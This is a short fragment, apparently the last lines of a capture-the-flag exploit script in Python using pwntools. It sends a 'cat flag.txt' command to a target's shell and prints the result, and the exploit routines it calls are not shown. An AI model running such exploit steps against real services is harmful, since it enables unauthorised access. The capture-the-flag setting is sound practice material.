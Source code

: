 ```python
flush()
Eat()
r.sendlineafter('choice: \n', 'cat flag.txt\nexit')
log.info(r.recvall().strip().decode())
```